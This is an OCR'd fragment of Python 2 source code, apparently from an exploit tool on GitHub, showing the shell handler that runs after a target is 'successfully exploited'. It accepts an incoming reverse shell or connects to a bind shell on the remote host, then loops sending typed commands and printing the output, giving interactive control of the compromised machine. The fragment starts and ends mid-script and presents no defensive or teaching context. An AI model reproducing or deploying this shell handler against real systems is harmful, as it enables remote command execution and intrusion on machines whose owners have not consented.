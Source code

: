     

buff = 1024

    

while True:

    if args['payload'] == 'reverse':

        clientsocket, clientaddr = serversocket.accept()

        print "[!] Successfully exploited"

        print "[!] Incoming connection from "+clientaddr[0]
        save(args['rhost'] + args['rport'])

        stop = True

        clientsocket.settimeout(3)

        while True:

            reply = raw_input(clientaddr[0]+"> ")

            clientsocket.sendall(reply+"\n")

            try:

                data = clientsocket.recv(buff)

                print data

            except:

                pass

        

    if args['payload'] == 'bind':

        try:

            serversocket = socket(AF_INET, SOCK_STREAM)

            time.sleep(1)

            serversocket.connect(addr)

            print "[!] Successfully exploited"

            print "[!] Connected to "+rhost
            save(args['rhost'] + args['rport'])

            stop = True

            serversocket.settimeout(3)

            while True:

                reply = raw_input(rhost+"> ")

                serversocket.sendall(reply+"\n")

                data = serversocket.recv(buff)

                print data

        except:

            pass
